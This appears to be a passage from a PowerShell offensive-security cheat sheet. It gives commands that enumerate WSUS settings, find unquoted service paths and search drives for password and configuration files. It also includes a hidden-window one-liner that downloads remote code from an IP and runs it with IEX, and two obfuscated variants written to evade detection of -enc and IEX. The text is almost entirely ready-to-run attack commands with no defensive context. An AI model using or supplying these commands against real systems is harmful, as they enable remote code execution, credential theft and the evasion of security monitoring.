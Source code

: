 Enumerate the use of the Windows Server Update Services (WSUS) 
```
    Get-ItemProperty -Path Registry::"HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" |Select-Object -ExpandProperty WUServer

    Get-ItemProperty -Path Registry::"HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" |Select-Object -ExpandProperty WUStatusServer

    Get-ItemProperty -Path Registry::"HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU" |Select-Object -ExpandProperty UseWUServer

    reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate
```


Get unquoted service paths
```
    gwmi win32_service |Select pathname | Where {($_.pathname -ne $null)} | Where {-not $_.pathname.StartsWith("`"")} | Where {($_.pathname.Substring(0, $_.pathname.IndexOf(".") +4)) -match ".* .*"}
```

#### Find-Files (custom)
```
    Find-Files -searchBase "i:\" -searchTerms "*web.xml*,*web.config*,*password*,*tomcat-users.xml*" -LogPath "C:\Users\username\AppData\Local\Temp"
```

#### Get-Enumeration (custom)

Run Local and Domain enumeration functions on the local host.
``` 
    Get-Enumeration -Path . -Local -Domain
```

#### Download and execute IEX
```
    powershell -nop -w hidden -c "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.1:80/file')" 
```

#### EncodedCommand and IEX detection bypass

Author: Dave Kennedy
Source: https://www.trustedsec.com/blog/circumventing-encodedcommand-detection-powershell/

Avoid detection of -enc
```
    powershell -window hidden -C "set-variable -name "C" -value "-"; set-variable -name "s" -value "e"; set-variable -name "q" -value "c"; set-variable -name "P" -value ((get-variable C).value.toString()+(get-variable s).value.toString()+(get-variable q).value.toString()) ; powershell (get-variable P).value.toString() <b64encodedcommandhere>"
```

Avoid detection of IEX
```
    powershell -window hidden -C "set-variable -name "LB" -value "I"; set-variable -name "I" -value "E"; set-variable -name "V" -value "X"; set-variable -name "wP" -value ((get-variable LB).value.toString()+(get-variable I).value.toString()+(get-variable V).value.toString()) ; powershell (get-variable wP).value.toString() ('<YOURINVOKEEXPRESSIONSTUFFHERE>')"
```
